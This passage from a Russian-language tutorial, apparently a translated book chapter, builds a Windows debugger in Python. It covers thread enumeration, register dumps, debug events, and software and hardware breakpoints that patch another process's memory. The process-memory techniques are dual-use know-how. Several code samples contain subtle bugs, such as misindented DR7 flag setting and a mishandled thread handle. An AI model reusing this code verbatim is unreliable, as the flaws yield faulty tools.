\end{lstlisting}

Теперь давайте, модифицируем наш тестовый файл, добавив в него тестирование новой функциональности, которую мы реализовали выше. 

Example 2: my\_test.py
Код:
\begin{lstlisting}
import my_debugger

debugger = my_debugger.debugger()

pid = raw_input("Enter the PID of the process to attach to: ")

debugger.attach(int(pid))

debugger.detach()
\end{lstlisting}

Для проверки работоспособности этого теста выполните следующие шаги:
Запустите калькулятор. Для этого перейдите в "Пуск => Выполнить => Все программы => Стандартные => Калькулятор".
Клацните правой кнопкой мыши на панели инструментов Windows и выберите Диспетчер задач из контекстного меню.
Выберите вкладку Процессы.
Если вы не видите колонки PID на дисплее, выберите "Вид => Выбрать столбцы".
Убедитесь, что установлен флажок напротив Идентификатор процесса (PID) и нажмите OK.
Найдите PID соответствующий calc.exe.
Выполните скрипт my\_test.py и введите PID, который вы нашли на предыдущем шаге.
Сценарий выведет сообщение, после чего завершит свою работу.
Теперь вы в состоянии взаимодействовать с запущенным калькулятором.

Сейчас, когда мы объяснили основы получения дескриптора процесса, создание отлаживаемого процесса и присоединение к запущенному процессу, мы готовы погрузиться в более сложные особенности, которые наш отладчик будет поддерживать.

\section{Получение состояния регистров процессора}

Отладчик должен уметь захватывать состояние регистров процессора в любое время и в любой заданной точке. Это дает нам возможность определить состояние стека, при возникновении исключения, местонахождение указателя инструкций и другую полезную информацию. Для этого, в начале, мы должны получить дескриптор выполняемого в данный момент потока, в отлаживаемой программе, что достигается за счет использования функции OpenThread() [10]. Она выглядит следующим образом.

Код:
\begin{lstlisting}
HANDLE WINAPI OpenThread(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwThreadId
);
\end{lstlisting}

Она выглядит так же, как и функция OpenProcess(), за тем лишь исключением, что вместо идентификатора процесса (PID) передается идентификатор потока (TID).

Нам нужно получить список всех потоков, которые выполняются внутри процесса, затем выбрать интересующий нас и получить правильный дескриптор на него с помощью OpenThread(). Давайте рассмотрим, как перечислить потоки в системе. 

\subsection{Перечисление потоков}

Для того что бы получить состояние регистра из процесса, мы должны уметь перечислять все работающие потоки внутри процесса. Потоки – это то, что фактически выполняется в процессе. Даже, если приложение не многопоточное, оно содержит, по крайней мере, один поток – главный поток. Мы можем перечислять потоки, используя очень мощную функцию CreateToolhelp32Snapshot() [11], которая экспортируется из kernel32.dll. Эта функция позволяет получать: список процессов, потоков и загруженных модулей (DLLs), в нутрии процессов, а так же “кучу” (heap list), которую имеет процесс. Прототип функции выглядит следующим образом:

Код:
\begin{lstlisting}
HANDLE WINAPI CreateToolhelp32Snapshot(
    DWORD dwFlags,
    DWORD th32ProcessID
);
\end{lstlisting}

Параметр dwFlags указывает, какой тип информации должна собрать функция (потоки, процессы, модули или кучи). Мы установим его в TH32CS\_SNAPTHREAD, равный 0x00000004, что означает, что мы хотим собрать все потоки, зарегистрированные в текущем снимке (snaphot). Параметр th32ProcessID это просто PID процесса, для которого мы хотим сделать снимок, но он используется только для TH32CS\_SNAPMODULE, TH32CS\_SNAPMODULE32, TH32CS\_SNAPHEAPLIST и TH32CS\_SNAPALL режимов. Поэтому, определение того, принадлежит ли поток нашему процессу или нет – зависит от нас… Когда CreateToolhelp32Snapshot() выполняется успешно, она возвращает дескриптор на объект снимка, который мы используем в последующих вызовах, для сбора дополнительной информации.

Как только у нас есть список потоков из снимка, мы можем начать перечислять их. Для того, что бы начать перечисление, используем функцию Thread32First() [12], которая выглядит следующим образом:

Код:
\begin{lstlisting}
BOOL WINAPI Thread32First(
    HANDLE hSnapshot,
    LPTHREADENTRY32 lpte
);
\end{lstlisting}

Параметр hSnapshot принимает открытый дескриптор, возвращенный из CreateToolhelp32Snapshot(), а параметр lpte является указателем на структуру THREADENTRY32 [13]. Эта структура заполняется после успешного вызова функции Thread32First() и содержит важную информацию для первого найденного потока. Структура определяется следующим образом:

Код:
\begin{lstlisting}
typedef struct THREADENTRY32{
    DWORD dwSize;
    DWORD cntUsage;
    DWORD th32ThreadID;
    DWORD th32OwnerProcessID;
    LONG tpBasePri;
    LONG tpDeltaPri;
    DWORD dwFlags;
};
\end{lstlisting}

В этой структуре есть три поля, которые нам интересны: dwSize, th32ThreadID и th32OwnerProcessID. Поле dwSize должно быть инициализировано до вызова функции Thread32First(). Для этого просто установите его значение – равное размеру самой структуры. Поле th32ThreadID это TID для потока, который уже рассматривался. Мы можем использовать этот идентификатор в качестве параметра dwThreadId, обсуждавшегося ранее в функции OpenThread(). Поле th32OwnerProcessID это PID который идентифицирует процесс, под которым был запущен поток. Для того что определить все потоки, принадлежащие процессу, нам нужно сравнить значение каждого th32OwnerProcessID с PID процесса, к которому мы присоединились (attach) или создали и если есть совпадение – мы знаем, что этим потоком владеет наша отлаживаемая программа. Как только мы собрали информацию о первом потоке, нам нужно перейти к следующему потоку в снимке (snaphot) вызвав функцию Thread32Next(). Она принимает те же параметры, что и Thread32First(), которую мы уже рассмотрели. Все что нам нужно сделать это продолжать вызывать Thread32Next() в цикле, до тех пор, пока в снимке не останется ни одного потока.

\subsection{Собираем все вместе}

Теперь, когда мы можем получить дескриптор потока, остается последний шаг, который заключается в получение всех регистров. Это можно сделать с помощью вызова GetThreadContext() [14]. Помимо этого, мы можем использовать функцию SetThreadContext() [15], что бы изменить значения, сразу после того, как мы получили допустимую запись контекста.

Код:
\begin{lstlisting}
BOOL WINAPI GetThreadContext(
    HANDLE hThread,
    LPCONTEXT lpContext
);

BOOL WINAPI SetThreadContext(
    HANDLE hThread,
    LPCONTEXT lpContext
);
\end{lstlisting}

Параметр hThread – это дескриптор, возвращенный из функции OpenThread(), а параметр lpContext – это указатель на структуру CONTEXT, которая содержит значения всех регистров. Структура CONTEXT важна для понимания. Она определяется следующим образом: 

Код:
\begin{lstlisting}
typedef struct CONTEXT {
    DWORD ContextFlags;
    DWORD Dr0;
    DWORD Dr1;
    DWORD Dr2;
    DWORD Dr3;
    DWORD Dr6;
    DWORD Dr7;
    FLOATING_SAVE_AREA FloatSave;
    DWORD SegGs;
    DWORD SegFs;
    DWORD SegEs;
    DWORD SegDs;
    DWORD Edi;
    DWORD Esi;
    DWORD Ebx;
    DWORD Edx;
    DWORD Ecx;
    DWORD Eax;
    DWORD Ebp;
    DWORD Eip;
    DWORD SegCs;
    DWORD EFlags;
    DWORD Esp;
    DWORD SegSs;
    BYTE ExtendedRegisters[MAXIMUM_SUPPORTED_EXTENSION];
};
\end{lstlisting}

Как вы можете видеть, в этот список включены все регистры, включая отладочные и сегментные регистры. Мы будем полагаться на эту структуру на протяжении оставшейся части нашего упражнения, посвященного созданию отладчика, поэтому убедитесь, что вы знакомы с ней.

Давайте вернемся к нашему старому другу my\_debugger.py и немного расширим его, добавив перечисление потоков и извлечение регистров.

Example 3: my\_debugger.py
Код:
\begin{lstlisting}
class debugger():

    ...
    def open_thread (self, thread_id):

        h_thread = kernel32.OpenThread(THREAD_ALL_ACCESS, None, thread_id)

        if h_thread is not None:
            return h_thread
        else:
            print "[*] Could not obtain a valid thread handle."
            return False

    def enumerate_threads(self):

        thread_entry = THREADENTRY32()
        thread_list = []
        snapshot = kernel32.CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, self.pid)

        if snapshot is not None:
            # You have to set the size of the struct
            # or the call will fail
            thread_entry.dwSize = sizeof(thread_entry)

            success = kernel32.Thread32First(snapshot, byref(thread_entry))

            while success:
                if thread_entry.th32OwnerProcessID == self.pid:
                    thread_list.append(thread_entry.th32ThreadID)

                success = kernel32.Thread32Next(snapshot, byref(thread_entry))

            kernel32.CloseHandle(snapshot)
            return thread_list
        else:
            return False

    def get_thread_context (self, thread_id=None,h_thread=None):

        context = CONTEXT()
        context.ContextFlags = CONTEXT_FULL | CONTEXT_DEBUG_REGISTERS

        # Obtain a handle to the thread
        if h_thread is None:
            self.h_thread = self.open_thread(thread_id) 

        if kernel32.GetThreadContext(h_thread, byref(context)):
            kernel32.CloseHandle(h_thread)
            return context
        else:
            return False
\end{lstlisting}

Теперь, когда мы расширили дебаггер еще больше, давайте обновим тестовый скрипт, что бы опробовать новые возможности.

Example 3: my\_test.py
Код:
\begin{lstlisting}
import my_debugger

debugger = my_debugger.debugger()

pid = raw_input("Enter the PID of the process to attach to: ")

debugger.attach(int(pid))

list = debugger.enumerate_threads()

# For each thread in the list we want to
# grab the value of each of the registers

for thread in list:
    thread_context = debugger.get_thread_context(thread)

    # Now let's output the contents of some of the registers
    print "[*] Dumping registers for thread ID: 0x%08x" % thread
    print "[**] EIP: 0x%08x" % thread_context.Eip
    print "[**] ESP: 0x%08x" % thread_context.Esp
    print "[**] EBP: 0x%08x" % thread_context.Ebp
    print "[**] EAX: 0x%08x" % thread_context.Eax
    print "[**] EBX: 0x%08x" % thread_context.Ebx
    print "[**] ECX: 0x%08x" % thread_context.Ecx
    print "[**] EDX: 0x%08x" % thread_context.Edx
    print "[*] END DUMP"

debugger.detach()
\end{lstlisting}

Когда, на этот раз, вы запустите тест, вы увидеть следующий вывод, показанный в Листинге 3-1.

Листинг 3-1: Значение регистров процессора для каждого выполняющегося потока
Код:
\begin{lstlisting}
Enter the PID of the process to attach to: 4028
[>] Dumping registers for thread ID: 0x00000550
[**] EIP: 0x7c90eb94
[**] ESP: 0x0007fde0
[**] EBP: 0x0007fdfc
[**] EAX: 0x006ee208
[**] EBX: 0x00000000
[**] ECX: 0x0007fdd8
[**] EDX: 0x7c90eb94
[>] END DUMP
[>] Dumping registers for thread ID: 0x000005c0
[**] EIP: 0x7c95077b
[**] ESP: 0x0094fff8
[**] EBP: 0x00000000
[**] EAX: 0x00000000
[**] EBX: 0x00000001
[**] ECX: 0x00000002
[**] EDX: 0x00000003
[>] END DUMP
[>] Finished debugging. Exiting...
\end{lstlisting}

Не плохо, правда? Сейчас у нас есть возможность запрашивать состояние всех регистров процессора, всякий раз, когда мы этого пожелаем. Опробуйте скрипт на нескольких процессах и посмотрите, какие результаты вы получите! На данный момент, у нас реализовано ядро нашего отладчика, поэтому, пришло время добавить несколько базовых отладочных обработчиков и точек останова (breakpoints).

\section{Реализация отладочных обработчиков событий}

Для того, что бы наш отладчик принимал, определенные события, нужно установить обработчики, для каждого отладочного события, которое может возникнуть. Если вернемся к функции WaitForDebugEvent(), то мы знаем, что она возвращает заполненную структуру DEBUG\_EVENT, всякий раз, когда происходить отладочное событие. Мы будем использовать информацию, содержащуюся в этой структуре, что бы определить, как обрабатывать отладочные события. Структура DEBUG\_EVENT определяется следующим образом:

Код:
\begin{lstlisting}
typedef struct DEBUG_EVENT {
    DWORD dwDebugEventCode;
    DWORD dwProcessId;
    DWORD dwThreadId;
    union {
        EXCEPTION_DEBUG_INFO Exception;
        CREATE_THREAD_DEBUG_INFO CreateThread;
        CREATE_PROCESS_DEBUG_INFO CreateProcessInfo;
        EXIT_THREAD_DEBUG_INFO ExitThread;
        EXIT_PROCESS_DEBUG_INFO ExitProcess;
        LOAD_DLL_DEBUG_INFO LoadDll;
        UNLOAD_DLL_DEBUG_INFO UnloadDll;
        OUTPUT_DEBUG_STRING_INFO DebugString;
        RIP_INFO RipInfo;
    }u;
};
\end{lstlisting}

В этой структуре много полезной информации. Поле dwDebugEventCode особенно интересно, так как оно сообщает тип события перехваченного в функции WaitForDebugEvent(). Помимо этого оно сообщает тип и значение для объединения (union) “u”. Различные отладочные события и их коды показаны в Таблице 3-1.

\begin{figure}
  \center
  
\includegraphics{./pic/chap3/1.png}
  \caption{Отладочные события}
\end{figure}

Проверяя значение поля dwDebugEventCode, можно сопоставить его с полученной структурой, определив значение, хранящееся в нем (поле), как определенное значение, хранящееся в объединении "u". Давайте изменим наш отладочный цикл, что бы отобразить сработавшие события отладки. Используя эту информацию, мы можем видеть события, в общем потоке, после создания или присоединения к процессу. Обновим наши скрипты my\_debugger.py и my\_test.py.

Example 4: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():

    def __init__(self):
        self.h_process = None
        self.pid = None
        self.debugger_active = False
        self.h_thread = None
        self.context = None
    ...

    def run(self):
        
        # Now we have to poll the debuggee for 
        # debugging events           
        while self.debugger_active == True:
            self.get_debug_event()

    def get_debug_event(self):

        debug_event = DEBUG_EVENT()
        continue_status= DBG_CONTINUE

        if kernel32.WaitForDebugEvent(byref(debug_event),INFINITE):

            # Let's obtain the thread and context information
            self.h_thread = self.open_thread(debug_event.dwThreadId)
            self.context = self.get_thread_context(self.h_thread)

            print "Event Code: %d Thread ID: %d" % (debug_event.dwDebugEventCode, debug_event.dwThreadId)

            kernel32.ContinueDebugEvent( debug_event.dwProcessId, debug_event.dwThreadId, continue_status )
\end{lstlisting}

Example 4: my\_test.py
Код:
\begin{lstlisting}
import my_debugger

debugger = my_debugger.debugger()

pid = raw_input("Enter the PID of the process to attach to: ")

debugger.attach(int(pid))

debugger.run()

debugger.detach()
\end{lstlisting}

Если мы снова используем нашего старого друга calc.exe, то вывод тестового скрипта будет выглядеть следующим образом Листинг 3-2.

Листинг 3-2: Коды событий при присоединении к процессу calc.exe
Код:
\begin{lstlisting}
Enter the PID of the process to attach to: 2700
Event Code: 3 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 6 Thread ID: 3976
Event Code: 2 Thread ID: 3912
Event Code: 1 Thread ID: 3912
Event Code: 4 Thread ID: 3912
\end{lstlisting}

Основываясь на выводе нашего скрипта – видно, что событие CREATE\_PROCESS\_EVENT (0x3) появилось первым, затем последовало довольно много событий LOAD\_DLL\_DEBUG\_EVENT (0x6), после чего сработало событие CREATE\_THREAD\_DEBUG\_EVENT (0x2). Затем появилось следующее событие EXCEPTION\_DEBUG\_EVENT (0x1), которое является управляемой точкой останова Windows и позволяет отладчику, перед возобновлением выполнения, изучить состояние процесса. Последний вызов EXIT\_THREAD\_DEBUG\_EVENT (0x4) завершает выполнение потока, с TID 3912.

События исключений особенно интересны, так как подобные исключения могут включать: точки останова; нарушения прав доступа или неправильного разруливания доступа к памяти (т.е. попытка записать данные в память, предназначенную только для чтения). Все эти события важны для нас, но давайте начнем с перехвата первой управляющей точки останова Windows. Откройте my\_debugger.py и вставьте следующий код.

Example 5: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():

    def __init__(self):
        self.h_process = None
        self.pid = None
        self.debugger_active = False
        self.h_thread = None
        self.context = None
        self.exception = None
        self.exception_address = None

        ...

    def get_debug_event(self):

        debug_event = DEBUG_EVENT()
        continue_status= DBG_CONTINUE

        if kernel32.WaitForDebugEvent(byref(debug_event),INFINITE):
            # Let's obtain the thread and context information
            self.h_thread = self.open_thread(debug_event.dwThreadId)

            self.context = self.get_thread_context(h_thread=self.h_thread)

            print "Event Code: %d Thread ID: %d" % (debug_event.dwDebugEventCode, debug_event.dwThreadId)

            # If the event code is an exception, we want to
            # examine it further.
            if debug_event.dwDebugEventCode == EXCEPTION_DEBUG_EVENT:

                # Obtain the exception code
                exception = debug_event.u.Exception.ExceptionRecord.ExceptionCode
                self.exception_address = debug_event.u.Exception.ExceptionRecord.ExceptionAddress

                if exception == EXCEPTION_ACCESS_VIOLATION:
                    print "Access Violation Detected."

                    # If a breakpoint is detected, we call an internal
                    # handler.
                elif exception == EXCEPTION_BREAKPOINT:
                    continue_status = self.exception_handler_breakpoint()
                elif exception == EXCEPTION_GUARD_PAGE:
                    print "Guard Page Access Detected."
                elif exception == EXCEPTION_SINGLE_STEP:
                    print "Single Stepping."

            kernel32.ContinueDebugEvent( debug_event.dwProcessId, debug_event.dwThreadId, continue_status )
    ...

    def exception_handler_breakpoint(self):

        print "[*] Inside the breakpoint handler."
        print "Exception Address: 0x%08x" % self.exception_address

        return DBG_CONTINUE
\end{lstlisting}

Если теперь перезапустить тестовый скрипт, то в его выводе вы увидите обработку программных точек останова, вызванных исключениями. Помимо этого мы создали заглушки для аппаратных точек останова (EXCEPTION\_SINGLE\_STEP) и точек останова на память (EXCEPTION\_GUARD\_PAGE). Вооружившись нашими новыми знаниями, мы можем реализовать три разных типа точек останова, с корректными обработчиками для каждой.

\section{Всемогущий брейкпойнт}

Теперь когда у нас есть основной функционал отладчика, пришло время добавить точки останова (breakpoints). Используя информацию из Главы 2, мы реализуем: программные точки останова, аппаратные точки останова и точки останова на память. Так же мы разработаем специальные обработчики для каждого типа брейкпойнтов и покажем, как корректно возобновить работу процесса после останова.

\subsection{Программные брейкпойнты}

Для того, что бы установить программный брейкпойнт (soft breakpoint), мы должны уметь читать и писать в память процесса. Делается это с помощью функций ReadProcessMemory() [16] и WriteProcessMemory() [17]. Они имею схожие прототипы:

Код:
\begin{lstlisting}
BOOL WINAPI ReadProcessMemory(
    HANDLE hProcess,
    LPCVOID lpBaseAddress,
    LPVOID lpBuffer,
    SIZE_T nSize,
    SIZE_T* lpNumberOfBytesRead
);

BOOL WINAPI WriteProcessMemory(
    HANDLE hProcess,
    LPCVOID lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T nSize,
    SIZE_T* lpNumberOfBytesWritten
);
\end{lstlisting}

Обе функции позволяют отладчику просматривать и изменять память отлаживаемой программы. Параметр lpBaseAddress – это адрес, откуда вы хотите начать читать или куда вы хотите начать писать данные. Параметр lpBuffer – это указатель на данные, которые содержат либо прочитанные данные, либо данные для записи. Параметр nSize – это общее количество байтов, которое вы хотите прочитать или записать.

Использую две эти функции, мы можем дать возможность нашему отладчику, довольно легко, использовать программные точки останова (soft breakpoints). Давайте, модифицируем наш основной отладочный класс, для поддержки установки и обработки программных брейкпойнтов. 

Example 6: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():

    def __init__(self):
        self.h_process = None
        self.pid = None
        self.debugger_active = False
        self.h_thread = None
        self.context = None
        self.breakpoints = {}
    ...

    def read_process_memory(self,address,length):
        data = ""
        read_buf = create_string_buffer(length)
        count = c_ulong(0)

        if not kernel32.ReadProcessMemory(self.h_process,
                                                        address,
                                                        read_buf,
                                                        length,
                                                        byref(count)):
            return False
        else:
            data += read_buf.raw
            return data

    def write_process_memory(self,address,data):

        count = c_ulong(0)
        length = len(data)

        c_data = c_char_p(data[count.value:])

        if not kernel32.WriteProcessMemory(self.h_process,
                                                        address,
                                                        c_data,
                                                        length,
                                                        byref(count)):
            return False
        else:
            return True

    def bp_set(self,address):

        if not self.breakpoints.has_key(address):
            try:
                # store the original byte
                original_byte = self.read_process_memory(address, 1)

                # write the INT3 opcode
                self.write_process_memory(address, "\xCC")

                # register the breakpoint in our internal list
                self.breakpoints[address] = (original_byte)
            except:
                return False
        return True
\end{lstlisting}

Теперь, когда у нас есть поддержка программных брейкпойнтов, нам нужно найти подходящее место для их установки. Вообще, брекпойнты устанавливаются на вызовы функций любого типа; для демонстрационного примера возьмем функцию printf() и попытаемся ее перехватить. Windows debugging API – предоставляет нам прозрачный метод определения виртуального адреса, с помощью функции GetProcAddress() [18], которая экспортируется из kernel32.dll. Единственным, основным требованием, этой функции является дескриптор модуля (на .dll или .exe файл), который содержит интересующую нас функцию и который можно получить с помощью функции GetModuleHandle() [19]. Прототипы функций GetProcAddress() и GetModuleHandle() выглядят следующим образом:

Код:
\begin{lstlisting}
FARPROC WINAPI GetProcAddress(
    HMODULE hModule,
    LPCSTR lpProcName
);

HMODULE WINAPI GetModuleHandle(
    LPCSTR lpModuleName
);
\end{lstlisting}

Делается это довольно просто: получаем дескриптор модуля, а затем ищем адрес экспортируемой функции, которая нам нужна. Давайте добавим вспомогательную функцию, в наш отладчик, что бы реализовать это. Снова вернемся скрипту my\_debugger.py и добавим следующие строки:

Example 6: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():
    ...
    def func_resolve(self,dll,function):

        handle = kernel32.GetModuleHandleA(dll)
        address = kernel32.GetProcAddress(handle, function)

        kernel32.CloseHandle(handle)

        return address
\end{lstlisting}

Теперь давайте создадим второй тестовый скрипт, который будет использовать printf() в цикле. Мы определим адрес функции, а затем установим программный брейкпойнт на нее. После попадания на брейкпойнт, мы увидим некоторые данные в консоли, после чего, процесс, продолжит выполнение своего цикла. Создайте новый скрипт, назвав его printf\_loop.py и поместите в него следующий код.

Example 6: printf\_loop.py
Код:
\begin{lstlisting}
from ctypes import *
import time

msvcrt = cdll.msvcrt
counter = 0

while 1:
    msvcrt.printf("Loop iteration %d!\n" % counter)
    time.sleep(2)
    counter += 1
\end{lstlisting}

Теперь давайте обновим наш первый тестовый файл, что бы присоединиться к этому процессу и установим брейкпойнт на printf().

Example 6: my\_test.py
Код:
\begin{lstlisting}
import my_debugger

debugger = my_debugger.debugger()

pid = raw_input("Enter the PID of the process to attach to: ")

debugger.attach(int(pid))

printf_address = debugger.func_resolve("msvcrt.dll","printf")

print "[*] Address of printf: 0x%08x" % printf_address

debugger.bp_set(printf_address)

debugger.run()
\end{lstlisting}

Для того, что бы протестировать его, запустите printf\_loop.py. Запишите PID (можно посмотреть с помощью диспетчера задач) для процесса python.exe. Далее, с консоли, запустите скрипт my\_test.py и введите записанный PID. После чего вы должны увидеть следующий вывод, показанный в Листинге 3-3.

Листинг 3-3: Порядок отладочных событий для программного брейкпойнта
Код:
\begin{lstlisting}
Enter the PID of the process to attach to: 4048
[>] Address of printf: 0x77c4186a
[>] Setting breakpoint at: 0x77c4186a
Event Code: 3 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 6 Thread ID: 3148
Event Code: 2 Thread ID: 3620
Event Code: 1 Thread ID: 3620
[>] Exception address: 0x7c901230
[>] Hit the first breakpoint.
Event Code: 4 Thread ID: 3620
Event Code: 1 Thread ID: 3148
[>] Exception address: 0x77c4186a
[>] Hit user defined breakpoint.
\end{lstlisting}

Мы видим, что функция printf() определена по адресу 0x77c4186a, поэтому устанавливаем брейкпойнт на этот адрес. Первое исключение, которое поймано, является управляющей точкой останова Windows, но когда приходит второе исключение – видно, что адрес исключения равен 0x77c4186a, что соответствует адресу функции printf(). После обработки брейкпойнта, процесс должен возобновить свою работу. Наш отладчик теперь поддерживает программные точки останова, поэтому давайте перейдем к аппаратным брейкпойнтам.

\subsection{Аппаратные брейкпойнты}

Второй тип точек останова – это аппаратные брэйкпоинты, которые предполагают установку определенных битов в отладочных регистрах процессора. Мы подробно рассмотрели их в Главе 2, поэтому давайте перейдем к деталям реализации. Самое важное, при взаимодействии с аппаратными брэйкпоинтами, это отслеживание какой из четырех доступных отладочных регистров свободен для использования, а какой уже занят и используется. Мы должны быть уверены, что всегда используем свободный слот, иначе у нас могут возникнуть проблемы, когда брейкпойнт не сработает, в то время когда мы ожидаем этого.

Давайте начнем с перечисления всех потоков в процессе, затем получим запись контекста для каждого из них. Используя полученную запись контекста, модифицируем один из регистров, между DR0 и DR3 (в зависимости от того какой из них свободен) для того, что бы поместить адрес требуемого брейкпойнта. Затем зеркально отразим соответствующие биты в регистре DR7, для включения брейкпойнта, а так же установки его типа и длины.

После того, как мы создали подпрограмму, что бы установить брейкпойнт, следующее, что нам нужно это изменить главный цикл обработки отладочных событий, чтобы мы могли правильно обработать исключение, которые выскочит на аппаратном брейкпойнте. Мы знаем, аппаратная точка останова срабатывает на INT 1, поэтому мы просто добавим еще один обработчик исключений в наш отладочный цикл. Давайте начнем с установки брейкпойнта.

Example 7: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():
    def __init__(self):
        self.h_process = None
        self.pid = None
        self.debugger_active = False
        self.h_thread = None
        self.context = None
        self.breakpoints = {}
        self.first_breakpoint= True
        self.hardware_breakpoints = {}
    ...
    def bp_set_hw(self, address, length, condition):

        # Check for a valid length value
        if length not in (1, 2, 4):
            return False
        else:
            length -= 1

        # Check for a valid condition
        if condition not in (HW_ACCESS, HW_EXECUTE, HW_WRITE):
            return False

        # Check for available slots
        if not self.hardware_breakpoints.has_key(0):
            available = 0
        elif not self.hardware_breakpoints.has_key(1):
            available = 1
        elif not self.hardware_breakpoints.has_key(2):
            available = 2
        elif not self.hardware_breakpoints.has_key(3):
            available = 3
        else:
            return False

        # We want to set the debug register in every thread
        for thread_id in self.enumerate_threads():
            context = self.get_thread_context(thread_id=thread_id)

            # Enable the appropriate flag in the DR7
            # register to set the breakpoint
            context.Dr7 |= 1 << (available * 2)

            # Save the address of the breakpoint in the
            # free register that we found
            if available == 0:
                context.Dr0 = address
            elif available == 1:
                context.Dr1 = address
            elif available == 2:
                context.Dr2 = address
            elif available == 3:
                context.Dr3 = address

            # Set the breakpoint condition
                context.Dr7 |= condition << ((available * 4) + 16)

            # Set the length
                context.Dr7 |= length << ((available * 4) + 18)

            # Set thread context with the break set
            h_thread = self.open_thread(thread_id)
            kernel32.SetThreadContext(h_thread,byref(context))

        # update the internal hardware breakpoint array at the used
        # slot index.
        self.hardware_breakpoints[available] = (address,length,condition)

        return True
\end{lstlisting}

Вы видите, что мы выбираем свободный слот, для хранения брейкпойнта, проверяя глобальный словарь hardware\_breakpoints. После того, как мы получили свободный слот, нам нужно установить адрес брейкпойнта в слот и обновить в регистре DR7 соответствующие флаги, которые позволяют включить этот самый брейкпойнт. Теперь, когда у нас есть механизм поддержки, для установки аппаратных брейкпойнтов, давайте обновим цикл обработки отладочных событий и добавим обработчик исключений поддерживающий прерывание INT 1.

Example 7: my\_debugger.py
Код:
\begin{lstlisting}
...
class debugger():
...
    def get_debug_event(self):

        if self.exception == EXCEPTION_ACCESS_VIOLATION:
            print "Access Violation Detected."
        elif self.exception == EXCEPTION_BREAKPOINT:
            continue_status = self.exception_handler_breakpoint()
        elif self.exception == EXCEPTION_GUARD_PAGE:
            print "Guard Page Access Detected."
        elif self.exception == EXCEPTION_SINGLE_STEP:
            self.exception_handler_single_step()
        ...
    def exception_handler_single_step(self):

        # Comment from PyDbg:
        # determine if this single step event occurred in reaction to a
        # hardware breakpoint and grab the hit breakpoint.
        # according to the Intel docs, we should be able to check for
        # the BS flag in Dr6. but it appears that Windows
        # isn't properly propagating that flag down to us.
        if self.context.Dr6 & 0x1 and self.hardware_breakpoints.has_key(0):
            slot = 0
        elif self.context.Dr6 & 0x2 and self.hardware_breakpoints.has_key(1):
            slot = 1
        elif self.context.Dr6 & 0x4 and self.hardware_breakpoints.has_key(2):
            slot = 2
        elif self.context.Dr6 & 0x8 and self.hardware_breakpoints.has_key(3):
            slot = 3
        else:
            # This wasn't an INT1 generated by a hw breakpoint
            continue_status = DBG_EXCEPTION_NOT_HANDLED

        # Now let's remove the breakpoint from the list
        if self.bp_del_hw(slot):
            continue_status = DBG_CONTINUE

        print "[*] Hardware breakpoint removed."
        return continue_status

    def bp_del_hw(self,slot):

        # Disable the breakpoint for all active threads
        for thread_id in self.enumerate_threads():

            context = self.get_thread_context(thread_id=thread_id)

            # Reset the flags to remove the breakpoint
            context.Dr7 &= ~(1 << (slot * 2))

            # Zero out the address
            if slot == 0:
                context.Dr0 = 0x00000000
            elif slot == 1:
                context.Dr1 = 0x00000000
            elif slot == 2:
                context.Dr2 = 0x00000000
            elif slot == 3:
                context.Dr3 = 0x00000000

            # Remove the condition flag
            context.Dr7 &= ~(3 << ((slot * 4) + 16))

            # Remove the length flag
            context.Dr7 &= ~(3 << ((slot * 4) + 18))

            # Reset the thread's context with the breakpoint removed
            h_thread = self.open_thread(thread_id)
            kernel32.SetThreadContext(h_thread,byref(context))

        # remove the breakpoint from the internal list.
        del self.hardware_breakpoints[slot]
        return True
\end{lstlisting}

Тут все довольно просто: когда происходи прерывание INT 1 мы проверяем, устанавливался ли какой-нибудь отладочный регистр с аппаратным брейкпойнтом. И если отладчик обнаруживает установленную аппаратную точку останова, соответствующую адресу исключения, он обнуляет флаги в регистре DR7 и сбрасывает регистр отладки, который содержит адрес брейкпойнта. Давайте посмотрим на этот процесс в действии. Модифицируйте скрипт my\_test.py, для использования аппаратных брейкпойнтов. В качестве хомячка будем использовать нашу функцию printf().

Example 7: my\_test.py
Код:
\begin{lstlisting}
import my_debugger
from my_debugger_defines import *

debugger = my_debugger.debugger()

pid = raw_input("Enter the PID of the process to attach to: ")

debugger.attach(int(pid))

printf = debugger.func_resolve("msvcrt.dll","printf")
print "[*] Address of printf: 0x%08x" % printf

debugger.bp_set_hw(printf,1,HW_EXECUTE)
debugger.run()
\end{lstlisting}

В этом тесте мы просто устанавливаем брейкпойнт на функцию printf() всякий раз, как она выполняется. Длина брейкпойнта всего один байт. В данном тесте импортировали файл my\_debugger\_defines.py. Это было сделано для того, что бы у нас был доступ к константе HW\_EXECUTE, которая придает немного ясности коду.

Когда запустите скрипт – увидите вывод, представленный в Листинг 3-4.

Листинг 3-4: Порядок событий для обработки аппаратных брейкпойнтов
Код:
\begin{lstlisting}
Enter the PID of the process to attach to: 2504
[>] Address of printf: 0x77c4186a
Event Code: 3 Thread ID: 3704
Event Code: 6 Thread ID: 3704
Event Code: 6 Thread ID: 3704
